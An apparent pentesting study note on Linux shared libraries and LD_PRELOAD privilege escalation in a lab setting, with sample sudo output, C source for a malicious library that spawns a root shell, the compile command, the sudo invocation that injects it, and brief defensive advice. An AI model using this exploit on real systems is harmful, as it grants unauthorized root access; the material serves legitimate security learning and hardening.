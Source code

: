 ```yaml
---
title: Shared libraries-  LD_PRELOAD / LD_LIBRARY_PATH
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Shared libraries: LD_PRELOAD / LD_LIBRARY_PATH.

It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs.

Two types of libraries exist in Linux:

- `static libraries` (denoted by the .a file extension) 
- and `dynamically linked shared object libraries` (denoted by the .so file extension).

When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries:

- Using the `-rpath` or `-rpath-link` flags when compiling a program,
- using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`
-  placing libraries in the `/lib` or `/usr/lib` default directories
- or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file


Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones.

The shared objects required by a binary can be viewed using the `ldd` utility. For instance, this command  lists all the libraries required by `/bin/ls`, along with their absolute paths.

```shell-session
ldd /bin/ls
```

## LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges.

```bash
sudo -l
```

Output:

```shell-session
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

This user has rights to restart the openssl service as root, but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances.

However, note here `env_keep+=LD_PRELOAD`. This lets us **override functions** and execute arbitrary code **inside a privileged process**. Specifically:

- The system **does NOT clear LD_PRELOAD when using sudo**.
- We can **force `openssl` to load a malicious library (`library.so`)**.

So we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");  // Remove LD_PRELOAD to avoid detection
    setgid(0);               // Set group ID to root
    setuid(0);               // Set user ID to root
    system("/bin/bash");     // Spawn a root shell
}

```

We can compile this as follows:

```shell-session
 gcc -fPIC -shared -o library.so library.c -nostartfiles
```

- `-fPIC`: Position-independent code (required for shared libraries).
- `-shared`: Compile as a shared library (`.so` file).
- `-nostartfiles`: Exclude standard startup files (smaller payload).


Finally, we can escalate privileges by executing **Openssl restart** with our malicious library injected. We need to specify the full path to the malicious library file.

```shell-session
sudo LD_PRELOAD=~/library.so /usr/bin/openssl restart
```


- `openssl restart` **loads `library.so` into memory**.
- The `_init()` function executes **before Openssl even starts**.
- It **grants us root privileges** and spawns a **root shell**.



### **How to Defend Against This?**

- **Remove `env_keep+=LD_PRELOAD` from sudoers!**

```
sudo visudo
```

- Remove or comment out the line:

```
# Defaults env_keep+=LD_PRELOAD`
```

- **Use `secure_path` restrictions** to prevent attackers from loading malicious libraries.
- **Ensure sudoers rules are specific and minimal** (e.g., avoid `NOPASSWD` where unnecessary).